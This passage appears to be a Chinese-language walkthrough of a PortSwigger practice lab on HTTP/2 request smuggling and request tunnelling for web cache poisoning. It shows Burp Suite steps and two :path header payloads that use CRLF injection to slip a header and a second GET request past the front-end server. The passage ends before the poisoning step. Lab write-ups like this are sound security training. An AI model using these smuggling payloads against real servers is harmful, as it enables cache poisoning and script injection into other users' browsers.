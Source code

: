 靶场示例  
靶场地址：[https://portswigger.net/web-security/request-smuggling/advanced/request-tunnelling/lab-request-smuggling-h2-web-cache-poisoning-via-request-tunnelling](https://portswigger.net/web-security/request-smuggling/advanced/request-tunnelling/lab-request-smuggling-h2-web-cache-poisoning-via-request-tunnelling)  
靶场介绍：这个靶场很容易受到请求走私的攻击，因为前端服务器会降低 HTTP/2 请求的级别并且不会始终如一地清除传入的标头，为了解决实验室问题你需要在缓存中投毒，当受害者访问主页时，他们的浏览器会执行 alert(1)，受害者用户将每 15 秒访问一次主页  
靶场演示：  
使用 Burpsuite 捕获用户的请求，然后通过"Inspector"将请求协议切换为 HTTP/2，并修改请求头部信息，走私一下内容

```plain
#Name
:path

#Value
/?cachebuster=1 HTTP/1.1\r\n
Foo: bar
```

[![](assets/1705287960-b7401eb7ddc680712e7747b7ddabe361.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111105140-58c4b902-b02c-1.png)  
从上面可以看到响应正常，说明我们可以借助:path 进行走私请求，随后改变请求方法为 HAED，试一下进行隧道传输，从响应正文中可以看到包含了：HTTP/1.1 200 OK，说明我们的走私成功

```plain
/?cachebuster=1 HTTP/1.1\r\n
Host:0a8f00d80344b40981c0e8ab00300007.web-security-academy.net\r\n
\r\n
GET /post?postId=1 HTTP/1.1\r\n
Foo: bar
```

[![](assets/1705287960-2ec3245c98b869e29117b126928ac59a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111105201-64e415c0-b02c-1.png)  